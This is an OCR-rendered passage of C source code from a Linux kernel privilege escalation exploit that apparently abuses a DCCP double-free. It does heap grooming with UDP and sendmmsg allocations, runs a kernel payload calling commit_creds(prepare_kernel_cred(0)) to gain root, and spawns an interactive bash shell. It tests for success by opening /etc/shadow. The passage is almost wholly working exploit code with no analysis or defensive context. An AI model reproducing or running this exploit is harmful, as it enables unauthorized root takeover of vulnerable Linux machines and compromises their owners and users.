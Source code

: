         debug("dccp kfree again:");
        dccp_kfree_again(&dh);
        debug("catch 2");
        for (i = 0; i < CATCH_FIRST; i++)
            udp_fifo_kmalloc(&uh2, &dummy[0]);
        debug("catch 1 -> overwrite");
        for (i = 0; i < CATCH_FIRST; i++) {
            udp_fifo_kfree(&uh1);
            sendmmsg_kmalloc_kfree(port++, &buffer[0]);
        }
        debug("catch 2 -> free & trigger");
        for (i = 0; i < CATCH_FIRST; i++)
            udp_fifo_kfree(&uh2);
        debug("catch 1 & 2");
        for (i = 0; i < CATCH_AGAIN; i++)
            udp_fifo_kmalloc(&uh3, &dummy[0]);
        printf("[.] done\n");
    }
    typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
    typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;
    void get_root_payload(void) {
        commit_creds(prepare_kernel_cred(0));
    }
    void get_root() {
        printf("[.] getting root\n");
        kernel_exec(&get_root_payload);
        printf("[.] should be root now\n");
    }
    // * * * * * * * * * * * * * * * * * Main * * * * * * * * * * * * * * * * * *
    void exec_shell() {
        char *shell = "/bin/bash";
        char *args[] = {shell, "-i", NULL};
        execve(shell, args, NULL);
    }
    void fork_shell() {
        pid_t rv;
        rv = fork();
        if (rv == -1) {
            perror("fork()");
            exit(EXIT_FAILURE);
        }
        if (rv == 0) {
            exec_shell();
        }
    }
    bool is_root() {
        // We can't simple check uid, since we're running inside a namespace
        // with uid set to 0. Try opening /etc/shadow instead.
        int fd = open("/etc/shadow", O_RDONLY);
        if (fd == -1)
            return false;
        close(fd);
        return true;
    }
    void check_root() {
        printf("[.] checking if we got root\n");
        if (!is_root()) {
            printf("[-] something went wrong =(\n");
            printf("[!] don't kill the exploit binary, the kernel will crash\n");
            return;
        }
        printf("[+] got r00t ^_^\n");
